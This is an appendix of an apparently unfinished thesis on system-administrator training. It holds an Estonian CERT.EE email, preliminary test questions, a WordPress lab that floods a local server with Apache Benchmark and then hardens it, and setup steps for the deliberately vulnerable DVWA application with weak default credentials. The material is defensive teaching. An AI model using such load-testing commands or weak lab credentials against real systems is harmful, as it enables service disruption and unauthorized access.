\appendix
\newgeometry{margin=2cm}
% change chapter title to be without word chapter
% http://www.latex-community.org/forum/viewtopic.php?f=4&t=638
% appendicies do not need space in beginning of the chapter
\makeatletter
\renewcommand{\@makechapterhead}[1]{%
	\vspace*{1 pt}%
	{\color{chapters}\setlength{\parindent}{0pt} \raggedright \normalfont
	\bfseries\Huge\thechapter\ #1
	\par\nobreak\vspace{1 pt}}}
\makeatother

\chapter{Letter from CERT.EE to Rector of Esonian IT College}
\label{Letter from CERT.EE to Rector of Esonian IT College}

\small
%\begin{alltt}
---Original Message-----

From: CERT.EE töötaja\par
Sent: Tuesday, February 10, 2009 3:55 PM \par
To: Eesti Infotehnoloogia Kolledž Rektor \par
Cc: ***** \par
Subject: Täiendkoolitus\par

Tere
Meil on üks probleem  :
Pole piisavalt haritud administraatoreid omavalitsustes ja 
muudes riigiasutustes ning väikese ja keskmise suurusega organisatsioonides.

Probleem jaguneb mitmeks väiksemaks alam probellmiks :
enamik administraatoreid on nn iseõppijad (mis on muidugi tore!)
ja omandanud [hädapärased] teadmised ja kogemused töö käigus
kutse ja rakenduskõrghariduse raames ei anta õpilastele juur- ja
 turvateenuste alal vajaliku põhjalikusega teadmisi 
(vahest on liiga vara spetsialiseeruda ?!)

täiendkoolituse turul olemas vaid tootjate endi tarkvaratoodete põhised kursused 
(tihti kontori tarkvara üldkursused)

tegelik üldine teadmiste ja oskuste tase sihtrühmas 
ei ole piisav hästi toimiva süsteemi haldamiseks 
ega tõrgete kõrvaldamiseks
Täiendkoolituse turul puuduvad nimetatud sihtrühmale 
vajalikud kursused.

Nii võiks välja näha kohaliku omavalitsuse itimehe ja ülemuse arenguvestluse üks osa:
itimees: Tahan minna nädalaks koolitusele, maksab 15 tuhat, see teeb vaid 3 tuhat ühe päeva eest. ülemus ütleb: Oota, mõtleme, aga nädalaks sind ära lasta ei saa ja kallis on see ka, ikkagi 15 tuhat ülemus mõtleb: .oO(saadad koolitusele, ja pärast läheb teise kohta suure palga peale, las parem sekretär käib wördi koolitusel ära)

Lahendus :
Valitsus (?HM, MKM, KM?), veel parem EU maksab keskelt kinni kursuste ettevalmistamise ja 3 aasta jooksul sihtrühma koolituse plaan sihtrühma koolituseks :

a) ette valmistada nädalased kursused (40 x 45 min) järgnevatel teemadel

!) kõik kursused OpenBSD baasil, kuna *BSD perekond on laialt levinud platform juurteenuste jaoks ja võimalik saadud teadmisi ja oskusi rakenda laiemalt kui vaid ühe tootja/tarkvara puhul \emph{mida oligi vaja} ;)

\begin{itemize}
	\item[0)] sissejuhatus: IPv4/IPv6, TCP/IP, kahendarvutused.... (anda alused järgmistele kursustele)
	\item[1)] tulemüüri ülespanek, seadistamine ja igapäevane haldus
	\item[2)] aja- ja nimeteenuse ülespanek, seadistamine ja igapäevane haldus
	\item[3)] veebiteenuse ülespanek, seadistamine ja igapäevane haldus
	\item[4)] postiteenuse ülespanek, seadistamine ja igapäevane haldus
	\item[5)] logihalduse ülespanek, seadistamine ja igapäevane haldus
	\item[6)] ründetuvastus ja intsidentide halduse süsteemi ülespanek, seadistamine ja igapäevane haldus
	\item[7)] Loov probleemi lahendus ja haldus.

\end{itemize}


b) viia koolitusi läbi kahe aasta jooksul

TULEMUS:
suurem enamus väikese ja keskmise suurusega organistasioonide juurteenuste administraatoreid oskab oma tööd heal või keskmisel tasemel.


Lahendusele me oleme leidnud mõningad allikad mis eeldavad kutse või kõrgharidusega tegeleva asutuse kaasamist või isegi talle projektis vedava rolli andmist.
Hea meelega saaks teiega järgmisel nädala esimesel poolel teiega kokku ja räägiks meie poolsest nägemusest lahendustele ning kuulaks teie poolset arvamust idee räideviimise võimaluste kohta .

Lugupidamsiega ....
%\end{alltt}
\normalfont


\chapter{Preliminary Tests}
\label{Preliminary Tests}

To gather information about background of the students and distance learner following questions where used (not all questions in every test but subset of them). For students a most of quorum passed the test with more then 50\%. However, in continuous education the precedence is lesser and stays \textasciitilde 10\%. In case of practical test TODO the precedence 

\begin{table}[h]
\centering
\caption{The questions and comments for preliminary test}

\begin{tabular}{|p{7cm}|p{2cm}|p{5cm}|}
\hline 
\color{blue}
Question & \color{blue} Precentege of correct answers & \color{blue} Comments \\ 
\hline 
What is stored to environment variable \$PATH? & \textasciitilde 60\% & This question is for ...\\ 
\hline 
To connect a host to local LAN you need configure a minimally what IP settings? & \textasciitilde 50\% & Mostly are chosen too many parameters\\ 
\hline 
What is a difference between buffer and cache? Are they a same things? &\textasciitilde 20\% & Most people just do not know how to explain the difference  \\ 
\hline 
What is a difference between virtual memory and swap? Are they same things? & \textasciitilde 10\%  &   \\ 
\hline 
What is a difference between authorization and authentication? Are they same things? & \textasciitilde 30\% & Same level for students and  for continuous education \\ 
\hline 
How many primary partitions can be made to hard-disk? (in case of BIOS equipped computer) & \textasciitilde 50\% & Students forgot and others do not know  \\ 
\hline 
What are differences between public key and certificate?  & \textasciitilde 10\% & Matter of a lack of explanation skill \\ 
\hline 
In \gls{GNU/Linux} you have directory \emph{/home/student} with following permissions: 
 \emph{-rw-r--r-- 1 root root 0 2013-05-01 09:11 file.txt}
Can user student delete this file? &  \textasciitilde 10\% &Students should know that file can be deleted.  \\ 
\hline 
\end{tabular} 

\label{tab:preliminary_test}
\end{table}

Some samples of practical prelimery tests are given in Table~\ref{tab:preliminary_practical_test}.
\begin{table}[h]
\centering
\caption{The practical preliminary tests}
\scriptsize{
\begin{tabular}{|p{1cm}|p{13cm}|}
\hline 
\color{blue}
Variant & \color{blue} Link to the test  \\ 
\hline 
1 & \url{https://docs.google.com/document/d/1KPMH1uvNYhBiLerH_5yQsEurbWiIWi1u5rilkyXFDTQ/edit}\\
2 & \url{https://docs.google.com/document/d/1GfGyQnQSvx7hah0J47izDUOGr0cuCBIcekHkPK_L0Yg/edit}\\
3 & \url{https://docs.google.com/document/d/1u0spdgCuCPGFSeEymgZuVui-i8m9zyivTTxujTcEmzE/edit}\\
4 & \url{https://docs.google.com/document/d/1htv1jmWHGkymhqUWJ6g1OLl4CV5xHEiDq88eZa2QLDs/edit}\\
\hline
\end{tabular} 
}
\label{tab:preliminary_practical_test}
\end{table}

%Preliminary course about dpkg based GNU/Linux
\chapter{Preliminary course GNU/Linux}
\label{Preliminary course - dpkg based GNU/Linux}
\begin{figure}[H] 
 \centering 
 
\includegraphics[scale=0.48,angle=90]{pre-requirements-course.pdf}
 \rule{25em}{0.5pt}  
 \caption{Topics covered in preliminary course (MindMap)} 
 \label{Topics covered in preliminary course} 
\end{figure}



\chapter{Protecting Web Application Against (D)DOS Attacks}
\label{Protecting Web Application Against (D)DOS Attacks}
\section{Introduction}
\section{Pre-Requirements} 
\section{Scope}
\section{Learning Outcomes} 
\section{Setting up the Virtual Environment} 

In this lab we use two Ubuntu Linux virtual machines.
Ubuntu server 512MB RAM, NIC1 - NAT, NIC2 - HostOnly with address 192.168.56.200
Ubuntu client 1GB RAM NIC1 - NAT, NIC2 - HostOnly wid dynamic address. (probably 192.168.56.101)
Download virtual machines to local disk
\url{http://elab.itcollege.ee:8000/infra_klient_small.ova}
\url{http://elab.itcollege.ee:8000/infra_server.ova}

Import virtual machines (If your host computer has only 4GB RAM, then reduce client machine memory to 1GB)

Start both machines. 

{\small{If you got an error about host only network then open Main Menu, choose File Preferences and choose Network and add Host Only Network.}}

Username and password for both machines are student, student.

Username: student
Password: student
Student user are in sudo group and can start administrator shell with sudo command.

Log on to client and add two addresses on /etc/hosts
\begin{minted}[frame=lines,framesep=2mm]{bash}
echo "192.168.56.200	wp.planet.zz">>/etc/hosts
echo "192.168.56.200	dvwa.planet.zz">>/etc/hosts
\end{minted}

\section{Installation of the WordPress}
All following commands must executed as root user. To get root permissions in Ubuntu Server used in this lab type:

\mint[frame=lines, framesep=1mm]{bash}|sudo -i|


This lab demands installing software for that update local package cache first
\mint[frame=lines, framesep=1mm]{bash}|apt-get update|

If you have time then do system upgrade
\mint[frame=lines, framesep=1mm]{bash}|apt-get dist-upgrade|

Install apache webserver and mysql database and 
\begin{minted}[frame=lines,framesep=2mm]{bash}
apt-get install apache2 mysql-server ssh php5 php5-mysql 
apt-get install apache2-utils libapache2-mod-php5
\end{minted}

Download latest version of WordPress
\mint[frame=lines, framesep=2mm]{bash}|wget http://wordpress.org/latest.tar.gz|

Unpack tar.gz archive to  /var/www directory using tar utility.

\mint[frame=lines, framesep=2mm]{bash}|sudo tar zxvf latest.tar.gz --directory=/var/www/|

Creade new mysql database called wp and database user student. Grant all privileges on database wp to user student.

\begin{minted}[frame=lines, framesep=2mm]{bash}
mysql -u root -p
create database wp;
create user student;
GRANT ALL PRIVILEGES ON wp.* TO 'student'@'localhost' IDENTIFIED BY 'student';
quit
\end{minted}

Create new virtual host for wordpress 
\marginpar{\rule[-.9cm]{1pt}{1pt}TODO}
\mint[frame=lines, framesep=2mm]{bash}|cp /etc/apache2/sites-available/default /etc/apache2/sites-available/wp|
Change owner and group for wordpress files to ensure that web server can read and write files.
\mint[frame=lines, framesep=2mm]{bash}|chown www-data:www-data /var/www/wordpress -R|

Change root directory (DocumentRoot) for new virtualhost and add server name field (ServerName) to virtualhosts configuration file   /etc/apache2/sites-available/wp


\begin{minted}[frame=lines, framesep=2mm]{bash}
ServerName	wp.planet.zz
#DocumentRoot /var/www
DocumentRoot /var/www/wordpress
\end{minted}


To enable new virtualhost for WordPress use a2ensite utility
\mint[frame=lines, framesep=2mm]{bash}|a2ensite wp|

Change wordpress configuration file
/var/www/wordpress/wp-config-sample.php

Set correct values for defines DB\_NAME, DB\_USER, DB\_PASSWORD as:

define('DB\_NAME', 'wp');

/** MySQL database username */
define('DB\_USER', 'student');

/** MySQL database password */
define('DB\_PASSWORD', 'student');


Copy sample file to real config file:
\mint[frame=lines, framesep=2mm]{bash}|cp  -a /var/www/wordpress/wp-config-sample.php /var/www/wordpress/wp-config.php|

Reload apache configuration files:
\mint[frame=lines, framesep=2mm]{bash}|service  apache2 reload|

Go to address http://wp.planet.zz/ using web browser.

Enter values for  Site Title, username, password and an e-mail

Choose Install

\subsection{Testing Your WordPress Installation against sipler DOS attacks}


How many requests default installation will serve? (parallel connections, requests/second)
Install apache2 utils on CLIENT computer, not in the server computer.

\begin{minted}[frame=lines, framesep=2mm]{bash}
sudo apt-get update
sudo apt-get install apache2-utils
\end{minted}

For Fedora/CentOS/RH/Oracle Linux install httpd-utils package.

Execute Apache Benchmark program ab
\begin{minted}[frame=lines, framesep=2mm]{bash}
ab -c<NO_CONN> -t<TIME> http://wp.planet.zz/
\end{minted}
flag c - parallel connections
flag t - time for test

\mint[frame=lines, framesep=2mm]{bash}|ab -c600 -t20 http://wp.planet.zz/|

In last example the ab utility makes 600 parallel connections and test takes 20 seconds.
Test results
Store test results and the command line used for tests.
Write down request per second. No of failed requests and No of completed requests.

\subsection{Hardening WordPress Installation}

What is the OOM?

Disable swap (edit /etc/fstab file or use swapoff command)


\mint[frame=lines, framesep=2mm]{bash}|swapoff -a|

Disable OOM killer for MySQL database. In newer kernels write -1000 to oom\_score\_adj file.

\mint[frame=lines, framesep=2mm]{bash}|echo "-1000" > /proc/$(pidof mysqld)/oom_score_adj|
%$
For backward compatibility with old kernels (2.6.XX series) you can use oom\_adj file
\mint[frame=lines, framesep=2mm]{bash}|echo "-17" > /proc/$(pidof mysqld)/oom_adj|
%$

Documentation about proc filesystem and OOM:
\url{http://www.kernel.org/doc/Documentation/filesystems/proc.txt}

Not mandatory task: Modify mysql startup script to tune OOM score. 

WordPress Supercache
Install WordPress Supercache plugin.
Change Permalinks settings
Test cache with AB

Install Varnish HTTP cache
Change apache default port to 8080
In file /etc/apache2/ports.conf
Change 80 > 8080
Like:
NameVirtualHost *:8080
Listen 8080

Or just download new file using wget 

cd /etc/apache2
mv ports.conf /root/ports.conf.old
wget http://elab.itcollege.ee:8000/Configs/apache2/ports.conf

Change all virtual hosts to use new 8080 port using text editor or sed command.

\mint[frame=lines, framesep=2mm]{bash}|sed 's/:80>/:8080>/' -i /etc/apache2/sites-enabled/wp|


Install varnish and change varnish default port from 6081 to 80
apt-get install varnish
change /etc/default/varnish configuration file
Change line
\mint[frame=lines, framesep=2mm]{bash}|DAEMON_OPTS="-a *:6081 \ |
to
\mint[frame=lines, framesep=2mm]{bash}|DAEMON_OPTS="-a *:80 \|

This means that varnish will listen port 80 on webserver

Restart apache and varnish services

service apache2 restart
service varnish restart

Test your result using netstat command

\mint[frame=lines, framesep=2mm]{bash}|netstat -lp | grep varnish|

Test new system with AB utility.

Links:
\href{http://kaanon.com/blog/work/making-wordpress-shine-varnish-caching-system-part-1}{Making wordpress shine with Varnish caching system}
\href{http://kaanon.com/blog/varnish/making-wordpress-shine-varnish-caching-system-part-2}{Making wordpress shine with Varnish caching system part 2}
\href{http://www.google.com/producer/editions/CAowvZtX/full_circle_magazine_57_lite}
{Full Circle Magazine 57}



\chapter{Protecting an Insecure Web Application}
\label{Protecting an Insecure Web Application}

\begin{quote}
I will newer blindly copy paste commands from manuals specially when logged as root! -- Experienced IT system administrator.
\end{quote}

\section{Introduction}

The hands-on laboratory is mean to teach system administrator's how to protect insecure web application from common attacks like injection's, \gls{XSS}, \gls{CSRF}, brute force, file upload and file inclusion. Damn Vulnerable Web Application \gls{DVWA} is used as role of insecure application. Several vulnerable web application  alternatives exists \url{http://blog.taddong.com/2011/10/hacking-vulnerable-web-applications.html}


\subsection{Lab Scenario}
Lab participant acts as system administrator for small company which has several web applications. One legacy application is tremendously vulnerable for common type of attacks. Company ordered new web application to replace old and vulnerable service. However old application must survive at least few month's before being replaced. Till that time system administrator have high criticality task  to protect this vulnerable system. Blocking IP addresses is not a solution because client's requests can be originated from any location, although fixing all programming errors takes too long and new version of software was developed for that purposes.



\section{Pre-Requirements}
This hands-on laboratory is designed to students who have knowledge and skills for working with GNU/Linux command line, basic networking and HTTP(S) and understanding text editing.
\par
Students must have possibility to run at least two virtual machines with configuration seen in table ...

\begin{table}
\centering
\caption{Hardware requirements for DVWA lab}
\begin{tabular}{|c|c|}
\hline 
\rule[-1ex]{0pt}{2.5ex} Hardware & Minimal requirements \\ 
\hline 
\rule[-1ex]{0pt}{2.5ex} RAM & $>=512MB$ \\ 
\hline 
\rule[-1ex]{0pt}{2.5ex} NIC 1 & HostOnly - accessable from Host \\ 
\hline 
\rule[-1ex]{0pt}{2.5ex} NIC 2 & NAT - routed to interet \\ 
\hline 
\rule[-1ex]{0pt}{2.5ex} OS & Ubuntu Server 12.04 LTS \\ 
\hline 
\end{tabular}
\label{HW for DVWA}
\end{table}


\section{Scope}
This particular lab 
\section{Learning Outcomes}
Student knows common attack types related to web applications.
\begin{itemize}
	\item SQL Injection
	\item OS command injection
	\item  \gls{XSS}
	\item  \gls{CSRF}
\end{itemize} Student has skill to test those attacks using \gls{DVWA}.
Student knows possible mitigation methods and employ appropriate protection methods.
\section{Setting up the Virtual Environment}
\section{Installation of Damn Vulnerable Web Application}
\subsection{Introduction to DVWA}

Ensure that you have administrator rights
\begin{minted}[frame=lines,framesep=2mm]{bash}
sudo -i
\end{minted}

Update local package cache
\begin{minted}[frame=lines,framesep=2mm]{bash}
apt-get update
\end{minted}


Ensure that unzip package is installed
\begin{minted}[frame=lines,framesep=2mm]{bash}
type unzip || apt-get install unzip
\end{minted}

Install apapache web server, mysql server and php5
\begin{minted}[frame=lines,framesep=2mm,fontsize=\small]{bash}
apt-get install apache2 mysql-server ssh php5 php5-mysql libapache2-mod-php5
\end{minted}


Dowload DVWA using web get utility wget
\begin{minted}[frame=lines,framesep=2mm]{bash}
wget http://dvwa.googlecode.com/files/DVWA-1.0.7.zip
\end{minted}

\begin{minted}[frame=lines,framesep=2mm]{bash}
unzip DVWA-1.0.7.zip
mv dvwa /var/www

nano /var/www/dvwa/config/config.inc.php

$_DVWA[ 'db_user' ] = 'root';
$_DVWA[ 'db_password' ] = 'student';
$_DVWA[ 'db_database' ] = 'dvwa';
\end{minted}
%$
For save use  CTRL + X


http://$ServerIP$/dvwa/
Username : admin
Password : password
Change DVWA Security level to low (for beginners)

\begin{figure}[H] 
 \centering 
 
\includegraphics[width=0.6\textwidth]{dvwa_security_low.pdf}
 \rule{25em}{0.5pt}  
 \caption{Setting DVWA Security Level to Low} 
 \label{Setting DVWA Security Level to Low} 
\end{figure}


\begin{figure}[H] 
 \centering 
